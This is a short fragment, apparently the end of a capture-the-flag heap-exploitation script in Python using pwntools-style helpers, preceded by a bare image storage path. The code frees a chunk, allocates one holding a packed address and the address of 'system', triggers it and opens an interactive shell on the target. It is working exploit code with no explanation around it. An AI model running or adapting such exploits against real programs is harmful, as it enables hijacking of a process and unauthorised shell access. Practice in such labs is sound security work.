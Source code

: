```python
delete(1)
#gdb.attach(p)

add(0x10,p64(0x602010) + p64(system))
#gdb.attach(p)
show(0)
p.interactive()	

```

